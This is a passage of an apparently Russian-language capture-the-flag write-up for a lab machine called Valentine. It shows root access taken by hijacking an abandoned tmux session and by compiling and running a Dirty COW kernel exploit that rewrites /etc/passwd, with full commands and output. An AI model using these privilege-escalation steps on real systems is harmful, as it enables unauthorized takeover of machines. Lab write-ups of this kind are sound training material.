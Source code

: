 Ооо, чувствую себя ребенком ~~на горбушке~~ в конфетной лавке, нам оставили **dev**-сессию! Вкратце о `tmux`: это такая утилита, позволяющая управлять терминальными сессиями, в том числе и "замораживать" текущее их состояние с возможностью последующего возобновления. Что мы и сделаем — восстановим приостановленную сессию из сокета `/.devs/dev_sess`, предварительно посмотрев, какие сессии доступны в принципе:
```text
hype@Valentine:~$ tmux -S /.devs/dev_sess ls
0: 1 windows (created Tue Jul 17 12:47:17 2018) [80x24]

hype@Valentine:~$ tmux -S /.devs/dev_sess a -t 0
root@Valentine:/# whoami
root

root@Valentine:/# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
Забираем флаг рута и идем радоваться жизни:
```text
root@Valentine:/# cat /root/root.txt
f1bb6d75????????????????????????
```

## PrivEsc: hype → root. Способ 2
Настало время для *грязных* (никогда не надоест :joy:) забав. Повысим привилегии до суперпользователя, вызвав состояние гонки в механизме копирования при записи, или просто проэксплуатируем уязвимость [Dirty COW](https://ru.wikipedia.org/wiki/%D0%A3%D1%8F%D0%B7%D0%B2%D0%B8%D0%BC%D0%BE%D1%81%D1%82%D1%8C_Dirty_COW "Уязвимость Dirty COW — Википедия") ([CVE-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195 "NVD - CVE-2016-5195")). Из [большого количества](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs "PoCs · dirtycow/dirtycow.github.io Wiki") PoC-ов для демонстрации я обычно выбираю вот [этот](https://github.com/FireFart/dirtycow/blob/master/dirty.c "dirtycow/dirty.c at master · FireFart/dirtycow") (основанный на подмене root-записи в `/etc/password`) как наиболее стабильный и полностью обратимый.

Скачав исходник на машину-жертву, соберем и запустим:
```text
hype@Valentine:~$ gcc -pthread dirty.c -o dirty -lcrypt
hype@Valentine:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: qwe123!@#
Complete line:
firefart:fiDBsH4uAQ9kk:0:0:pwned:/root:/bin/bash

mmap: 7f2b85843000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'qwerty'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'qwerty'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
